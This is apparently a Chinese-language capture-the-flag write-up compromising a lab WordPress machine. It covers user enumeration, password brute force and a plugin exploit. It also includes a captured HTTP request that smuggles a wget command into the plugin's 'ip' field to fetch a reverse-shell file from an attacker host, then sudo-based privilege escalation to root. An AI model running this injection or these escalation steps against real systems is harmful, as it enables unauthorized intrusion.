# Recon

这台机器仅开放标准端口的`ssh`和`http`



# shell as www-data by wordpress-plugin

访问80端口会被重定向到`http://wordy`



`/etc/hosts`添加对应ip



目录扫描和web访问都能看出这是一个`wordpress`





`wpscan -e u`枚举用户，存在5个用户，开始爆破



得到`mark:helpdesk01`，登录成功



`nuclei`发现存在`plainview`查看，`searchsploit`查找exp



使用`50110.py`getshell



工具得到的shell很难用，`proxychains4`抓包得到数据包，修改exp使用wget落地`reverse.php`反弹shell

```http
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: 192.168.2.127
User-Agent: python-requests/2.32.5
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_14014489b649086e51cacb340bafe656=mark%7C1759586016%7CgQ3rqOofN0n2rjazORoZgIY4P2D1qEfngm7F8oZLUMq%7C145e9b1f7b967b5bd8576b6300809fb63b0997f5ea6643f144973c73f6a3bec8; wordpress_logged_in_14014489b649086e51cacb340bafe656=mark%7C1759586016%7CgQ3rqOofN0n2rjazORoZgIY4P2D1qEfngm7F8oZLUMq%7C850410f1b1d30e86ad3ea01c7fa5e0ec88a78de816546dde72cabee931cadcb7
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

ip=google.fr+%7C+wget http://192.168.2.100:8000/reverse.php&lookup=lookup
```



# shell as graham by password leaks

例行检查，在`/home/mark/stuff`下发现`things-to-do.txt`，其中包含`graham`用户密码



`sudo -l`发现能以`jens`用身份执行`/home/jens/backups.sh`



# shell as jens by backups.sh

`graham`用户有权限修改`backups.sh`，那么直接`bash -p`得到jens用户shell即可



# shell as root by sudo

jens用户能以root身份执行`nmap`，那么直接提权即可


